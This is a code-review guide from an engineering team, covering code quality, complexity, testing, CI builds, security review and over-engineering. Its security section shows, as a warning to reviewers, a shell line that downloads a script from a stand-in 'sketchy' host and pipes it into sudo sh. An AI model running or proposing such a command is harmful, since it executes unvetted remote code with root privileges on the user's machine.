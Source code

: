 # Code Reviews

Code reviews come from an very important team wide value of having every single line of code subjected to the process of a code review.  

Also knows as peer code reviews are an essential part in the process of:

## 1. Maintaining high quality of code of each codebase

Quality of code is subjected to many opinions and points of view so in this guide we'll not be explicitly listing down a full and exhaustive list of properties of high quality code but here are a few **very obvious** examples.

### 1.1. Redundant Code or Comments

```python
def some_function():
  # add to enable debugging -----------
  #logger.setLevel(logging.DEBUG)
  #logger.setHandler(logging.FileHandler('my.log'))
  # -----------------------------------
  ...
```
You get the picture. Commented out code is an arguably a bad practice since you never know if the code around it is compatible with the commented out snippet.

Often you'll also see:

```python
# TODO: something I'll never touch gain but I'm still
# putting a TODO here - just in case :)

```

An additional example might be something like this:
```python
# ---------------------------------------------
# not used, but I'll keep it here just in case
# def my_function(arg1, arg2):
#   "this is my function"
#   return arg1 + arg2
# ---------------------------------------------
```
We invited version control systems like git and mercurial so that we don't have to worry about losing code. If you care so much about losing your function in the above example, we'd suggest deleting it, make a commit and tagging that commit for easier retrieval. Just don't leave it hanging around.

### 1.2. Cyclomatic Complexity

Wikipedia's definition of [cyclomatic complexity](https://en.wikipedia.org/wiki/Cyclomatic_complexity) is *"Cyclomatic complexity is a software metric (measurement), used to indicate the complexity of a program. It is a quantitative measure of the number of linearly independent paths through a program's source code."*

Although we measure this via Codeclimate it's still very important that a reviewer pays attention to this metric when reviewing code and proposes ways to reduce the complexity thus improving the readability of code.


### 1.3. Module Length

This applies to all aspects of structuring code into logical modules.

By module we mean: functions, modules in python or go-lang, classes, something that holds lines of code together and logically separates them. If such a module is getting too large, start thinking on how to split one function into multiple function, breaking one huge source code file into a separate package etc.

### 1.4. Code Coverage

Make sure the newly committed code is properly tested. Writing tests alongside writing code will usually produce better results in terms of overall quality, modularity and cyclomatic complexity mentioned above. So as long as you apply this principle to your work this shouldn't be a problem.  

### 1.5. Breaking the Build

As you'll learn in the chapter "Code Reviews at Zemanta" we use github's pull requests to review code of our peers before it get's merged into master. Alongside pull requests we also continuously test & build our code on Circle CI and the information about a build on our CI environment is also fed back to pull requests on github.

![alt text](img/pull_request_success.png)

When reviewing code you should never give somebody a green light, if their build is not successful since they'll not be able to deploy this code anyway and code that isn't deployable is of no value to anyone.

## 2. Applying the Right Technology to the Problem at Hand

Sometimes a proposed changeset comes out as a beautiful piece of code that's tested, applies really good and smart coding practices and at first glance improves the overall quality of a particular module, but if it doesn't solve the problem it stated it did, it's of little to no value.

To avoid such instances both the reviewer and the code review submitter have to play their part by:

* **When submitting** a code review, make sure you provide enough context about the problem to the reviewer.
* **When reivewing**, make sure you understand what the context of the proposed changes and invest extra time into validating that the code actually solves the problem at hand correctly.  

*Pro tip:* An even more extreme case would be that we wouldn't be solving the right problem in the first place, but that's an issue that lies higher up in the entire engineering process, but pay attention to such cases also.


## 3. Preventing Potential Security Issues / Vulnerabilities / Introduction of Harmful Code

Here is a classic:

```bash
#!/bin/sh

# install dependencies on production on a machine
# without proper backup and no means to set it up
# back automatically

curl "http://sketchy-site.com/im-completely-legit.sh" | sudo sh
```

By no means we'll be covering all possible vectors that would weaken the security of your systems, just use all your knowledge about possible attack vectors of the code your writing or reviewing and try to prevent the introduction of potentially harmful code.

When submitting a code review that introduces or changes security critical code try to think who on your team has the most knowledge about a particular module or technology and would be able to detect harmful changes. Make sure they also review your code.

## 4. Adhering to Good and Established Code Practices and Patterns

There are plenty of resources out there in the form of guides, books and documentation on what is a good practice and what not. So when reviewing or submitting code try to think if the proposed change-set respects:

* language or framework idioms
* existing pattern idioms and patterns of the codebase (if they still make sense after your change)
* language based formats as [PEP8](https://www.python.org/dev/peps/pep-0008/) or [go fmt](https://blog.golang.org/go-fmt-your-code)
* expressiveness of code in general
* ...

As a general principle: **keep in mind that most probably the code you're writing will written once and then read many times by multiple people.** It's worth insisting

Pro tip: to get you started here is a short intro to what idiomatic [Python](http://python.net/~goodger/projects/pycon/2007/idiomatic/handout.html), [Go-lang](https://golang.org/doc/effective_go.html) and [JavaScript](http://javascript.crockford.com/code.html) is.


## 5. Preventing Over-Engineering or Premature Optimizations

Some say that premature optimizations are the root of all evil and misery in software engineering, we say it's a waste of your's and others precious time. When reviewing code, pay special attention to newly written wrappers, libraries and abstractions since they might be introduced prematurely to the codebase.

Also consider premature introduction of 3rd party libraries and evaluate the value that they bring to the codebase as a whole. Ask yourself, if the newly introduced library can perhaps be replaced with minimal amount of custom code?  

## 6. Technical Debt

Arguably everything we covered before this point will reduce technical debt in your code in some aspect, but still pay special attention to the aspect of debt + interest in terms of effort we'll have to pay as a team, if the code gets introduced to the codebase. 

# Code Review Process at Zemanta

TODO:

* code review length
* think from the receiving end
* merge tactics
* ship it!
